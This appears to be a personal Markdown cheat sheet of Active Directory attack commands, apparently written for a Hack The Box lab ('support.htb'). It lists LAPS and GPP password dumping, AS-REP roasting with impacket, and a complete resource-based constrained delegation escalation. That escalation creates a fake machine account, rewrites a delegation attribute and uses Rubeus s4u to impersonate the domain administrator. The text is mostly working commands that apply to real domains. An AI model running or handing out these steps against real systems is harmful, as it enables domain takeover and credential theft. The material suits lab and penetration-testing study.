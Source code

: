 - Remote Dumping
  - DC Sync
  
### Local Admin Password Solution (LAPS)
- change loca admin: Group Policy Preference (GPP)
- Tool: Get-GPPPAsword
- dir 'C:\Program Files\LAPS\CSE'
- Commands:
  - get-command *AdmPwd*
  - OU with "All extended rights": 
    - Find-AdmPwdExtendedRights -Identity
    - Find-AdmPwdExtendedRights -Identity OU
    - Get-AdmPwdPassword -ComputerName NAME
  
- User without password ==> old Kerberos configuration
  - impacket: GetNPUsers.py -dc-ip IP DOMAIN -userfile/-users


## Privilege Escalation
- Upload powerview.ps1 and powermad.ps1
- Set variables
Set-Variable -Name "NAME" -Value "FAKE01"
Set-Variable -Name "targetComputer" -Value "DC"

- Get-ADDomain = info about domain

### GenericAll
- **Create computers - Steps**
  - Get-DomainObject -Identity 'DC=NAME,DC=HTB'
    - search *ms-ds-machineaccountquota*: create machine
  
  - Get-DomainController - OSVersion
  
  - New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
  - $ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
  - $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
  - $SDBytes = New-Object byte[] ($SD.BinaryLength)
  - $SD.GetBinaryForm($SDBytes, 0)
  - Allow new machine to act as another
    - Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
  - Fetch rc4_hmac
    - Rubeus.exe hash /password:Summer2018! ==> extract RC4_HMAC
    - Rubeus.exe hash /password:password /user:NAME /domain:support.htb = find hash 
  
  - Generate ticket.kirbi.b64
    - Rubeus.exe s4u /user:NAME$ /rc4:rc4_hmac_HASH /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
  - Decode ticket
    - base64 -d ticket.kirbi.bs64 > ticker.kirbi
   - GEt Ticket
    - .\Rubeus.exe s4u /user:NAME /rc4:7B592E4F8178B4C75788531B2E747687 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
  